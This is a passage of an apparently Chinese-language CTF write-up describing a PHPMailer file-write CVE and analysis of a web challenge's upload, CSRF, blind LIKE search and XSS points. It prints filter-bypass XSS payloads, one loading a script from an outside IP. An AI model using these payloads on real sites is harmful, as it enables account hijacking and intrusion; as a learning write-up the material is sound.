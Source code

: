 手机apk登陆后发现是发送邮件的，抓包

```
http://58.213.63.30:10005/mail.php

body=45475244&password=020606495e76455547515b73&title=45475244&username=5f5d5a5450&mail=521a557050
```

理所当然认为是phpmailer的cve，只是想了很久怎么写个webshell进去，可惜没想到随便测试了一下能不能写入文件，结果就getflag了...

以前写过分析文章，随便一个payload都可以
[http://lorexxar.cn/2016/12/28/cve-2016-10030/](http://lorexxar.cn/2016/12/28/cve-2016-10030/)

# web4时间 #

功能稍微有点儿多的

分析下

1、profile.php可以设置头像，这里内容不受影响，可以放任何东西

```
http://58.213.63.30:10003/uploads/0df8ddb2fee38858a4ddb8307d77f95baf869147.png

HTTP/1.1 200 OK
Date: Sun, 26 Feb 2017 04:52:31 GMT
Server: Apache/2.4.7 (Ubuntu)
Last-Modified: Sun, 26 Feb 2017 04:50:09 GMT
ETag: "9-54967b28d17fd"
Accept-Ranges: bytes
Content-Length: 9
Content-Type: image/png
```

2、note.php地方可以添加什么东西，但是需要csrftoken，如果可以写js的话，可以绕

ps：只显示6条

3、http://58.213.63.30:10003/search.php?keywords=1可以查询，但是返回只有数目

ps：这里是like的语法，也就是说可以逐位的跑一些内容

4、bugsubmit猜测有几个利用点，一个是url，可能会点击，一个是图片，可以加外链的，但是好像什么都没发生（这里坑了超久，开始测试的时候，这里链接是没人点击的...很晚了测试的时候无意中发现有人点击...导致也就来不及写payload了）

5、cookie是httponly

nikename和address可以xss，复写绕过，这样尖括号就不会被转义了（不知道这里咋写的...单纯传入尖括号会被转义）

```
<scrsvgipt>alert(1)</scrsvgipt>

<scrsvgipt src=//119.29.192.14/1></scrsvgipt>
```

可以随意开火，但是不能让别人看到，所以需要一个csrf来让别人修改自己的个人信息

<del>bugsubmit的上传图片是假的，直接转成了img标签</del>
